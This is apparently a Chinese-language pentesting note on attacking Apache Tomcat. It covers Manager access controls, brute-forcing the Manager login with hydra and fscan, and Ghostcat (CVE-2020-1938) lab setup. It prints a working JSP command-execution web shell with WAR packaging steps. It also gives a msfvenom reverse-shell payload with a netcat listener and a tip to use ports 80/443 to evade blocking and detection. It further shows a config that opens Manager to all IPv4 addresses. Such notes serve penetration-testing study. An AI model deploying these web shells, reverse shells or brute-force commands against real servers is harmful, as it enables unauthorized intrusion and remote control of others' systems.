

# Apache Tomcat

Apache Tomcat 是由 Apache 软件基金会（ASF）开发和维护的开源 Java Servlet 容器与 Web 服务器。它实现了 Java EE（现 Jakarta EE）中的 Servlet、JavaServer Pages (JSP) 及相关规范，为 Java Web 应用提供运行环境。

Apache Tomcat 作为独立 Web 服务器或与 Apache HTTP Server、Nginx 协同工作，默认端口 8080，常见错误页面如下：


## Apache Tomcat Manager

Apache Tomcat Manager 是 Tomcat 服务器官方自带的一个 Web 管理应用，通常以 manager 名称部署。它为系统管理员、开发者提供了基于浏览器的界面以及 REST API，方便远程管理和监控 Tomcat 上运行的 Web 应用。

从 Apache Tomcat 7.0 版本开始，Manager Web 应用默认只允许从本地（localhost）访问。这一限制主要通过 RemoteAddrValve 组件在 Manager 应用的配置文件中实现：

默认配置文件：`/usr/local/tomcat/webapps/manager/META-INF/context.xml`

```xml
<Context antiResourceLocking="false" privileged="true" >
  <Valve className="org.apache.catalina.valves.RemoteAddrValve"
         allow="127\.\d+\.\d+\.\d+|::1|0:0:0:0:0:0:0:1" />
  <Manager sessionAttributeValueClassNameFilter="java\.lang\.(?:Boolean|Integer|Long|Number|String)|org\.apache\.catalina\.filters\.CsrfPreventionFilter\$LruCache(?:\$1)?|java\.util\.(?:Linked)?HashMap"/>
</Context>
```

该配置的 `allow` 属性只允许本地地址（包括 IPv4 的 127.0.0.1 和 IPv6 的 ::1）访问 Manager 应用。

若需要允许其他主机访问 Manager，应根据实际需求调整 allow 属性。例如，放开所有 IPv4 地址的访问权限，可以将配置修改为：

```xml
<?xml version="1.0" encoding="UTF-8"?>

<Context antiResourceLocking="false" privileged="true" >
  <Valve className="org.apache.catalina.valves.RemoteAddrValve"
         allow="\d+\.\d+\.\d+\.\d+" />
</Context>
```

上述配置中的正则表达式 `\d+\.\d+\.\d+\.\d+` 允许任意 IPv4 地址访问 Manager 应用。

在 `\usr\local\tomcat\conf\server.xml` 配置文件中，Tomcat 提供了针对暴力破解口令（Brute-force Attack）行为的防护机制。通过设置相关参数，可以有效降低账户被暴力尝试密码的风险，具体参数如下：

| 配置项              | 默认值          | 说明                     |  
|---------------------|----------------|--------------------------|  
| `lockOutTime`       | 600 秒（10 分钟） | 账户锁定时间             |  
| `failureCount`      | 5              | 连续认证失败次数         |  
| `failureWindow`     | 300 秒（5 分钟）  | 计算失败次数的时间窗口   |  

同一用户在 `failureWindow` 秒内，认证失败次数达到 `failureCount`，账户将被锁定 `lockOutTime` 秒。

- [fscan](https://github.com/shadow1ng/fscan)

```bash
./fscan -h <ip>
```



<https://github.com/shadow1ng/fscan/blob/main/WebScan/pocs/tomcat-manager-weak.yml>

- hydra

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt http-get://<ip>/manager/html
```


- 使用 Burp Suite 破解

### 上传 WAR 后门

```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

```bash
mkdir webshell
cp index.jsp webshell
cd webshell
jar -cvf ../webshell.war *
```

- 使用 msfvenom，反弹 shell

```bash
msfvenom -p java/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war
```

> 在 MSF 中，默认的反弹（reverse）端口通常是 4444。许多 ISP（互联网服务提供商）会主动屏蔽常见渗透测试端口（如 `4444`），导致反弹连接失败。在实践中，需要注意更换为常用端口以降低被屏蔽或识别的概率，如`80`、`443`。<https://docs.ucloud.cn/unet/faq/firewall>

在公网机器上进行监听：

```bash
nc -lvnp <port>
```

<https://tomcat.apache.org/tomcat-10.0-doc/appdev/sample/>

## Ghostcat 高危文件读取/包含漏洞（CVE-2020-1938）

Ghostcat(幽灵猫) 是由长亭科技安全研究员发现的存在于 Tomcat 中的安全漏洞，由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源代码。此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

```bash
cd vulhub/tomcat/CVE-2020-1938
docker compose up
```

<https://mp.weixin.qq.com/s/D1hiKJpah3NhEBLwtTodsg>
<https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi>

## CVE-2025-24813

<https://github.com/absholi7ly/POC-CVE-2025-24813>

## 参考资料

<https://github.com/p0dalirius/ApacheTomcatScanner>

<https://cloud.tencent.com/developer/article/1944136>

<https://medium.verylazytech.com/ethical-hacking-guide-penetration-testing-apache-tomcat-2025-edition-01dc367f070c>
<https://forum.butian.net/share/316>
